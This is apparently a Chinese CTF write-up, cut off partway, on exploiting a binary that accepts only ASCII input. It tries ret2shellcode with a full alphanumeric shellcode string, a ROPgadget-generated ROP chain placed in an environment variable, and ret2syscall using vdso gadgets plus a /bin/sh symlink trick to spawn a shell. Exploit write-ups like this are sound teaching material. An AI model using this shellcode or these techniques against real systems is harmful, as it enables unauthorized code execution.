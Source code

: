 
#### 方法1：尝试 ret2shellcode：
先从网上找到一段纯 ascii 的 shellcode：
```
PYIIIIIIIIIIQZVTX30VX4AP0A3HH0A00ABAABTAAQ2AB2BB0BBXP8ACJJISZTK1HMIQBSVCX6MU3K9M7CXVOSC3XS0BHVOBBE9RNLIJC62ZH5X5PS0C0FOE22I2NFOSCRHEP0WQCK9KQ8MK0AA
```

这个方法的思路就是将这段 shellcode 放到 0x80000000 ，然后构造 rop gadget 控制 eip 跳到该位置（不难构造，略）。

此时又遇到一个坑：
这段代码在本地和实验环境上单独运行都是ok的，而且将某几个寄存器的值改为与题目溢出处状态类似的值也可以运行，然而在题目上却会报段错误...

几番调试没有发现这段 shellcode 的精髓，于是放弃该方法。


#### 方法2：尝试 rop chain：
注意到 ascii 文件是静态编译，较大，应该有 rop chain：
```
$ ROPgadget --binary ascii --ropchain
```

找到的 rop chain 较长，考虑是否可以放在环境变量上，然后找一个类似`ret 0x80e`的 gadget 控制 esp 跳到 rop chain 上：
`$ export A=$(python2 -c 'print "<ropchain>"*0x1000')`

经过尝试，这段 rop chain 是可行的，然而，由于这段代码较长（100+），在实验环境开启了 ASLR 的前提下，想要精准跳到 rop chain 的开头还是比较难（即使将长度对齐）。另外，vdso 段的地址还得满足 ascii 条件。



#### 方法3：尝试 ret2syscall：
1. 查找修改所需要的寄存器的 rop gadget：
```shell
$ ROPgadget --binary vdso32.so --only 'int'
$ ROPgadget --binary vdso32.so --only 'pop|ret'
```

2. 找到几个有用的 gadget：
```
0x00000b5a : pop edx ; pop ecx ; ret
0x00000b36 : int 0x80
```

3. 这样 edx、ecx 的值就可控了，考虑到 ascii 条件，不能直接设置为 0，可以找一个值为0的地址，让寄存器的值等于该地址：
```
(gdb) find /b 0x55565000,+0x1000,0,0,0,0
```
找到的结果很多，先随便挑一个满足条件的。

4. ebx 的值很好解决，只需要指向某个字符串就可以。不难发现，当长度超出限制时，ebx指向最后一个ascii字符的位置：
```shell
$ mkdir /tmp/haha
$ cd /tmp/haha
$ export PATH=$PATH:$(pwd)
$ ln -s /bin/sh a
```
这样设置后，执行 `execve("a", 0, 0)` 相当于`execve("/bin/sh", 0, 0)`

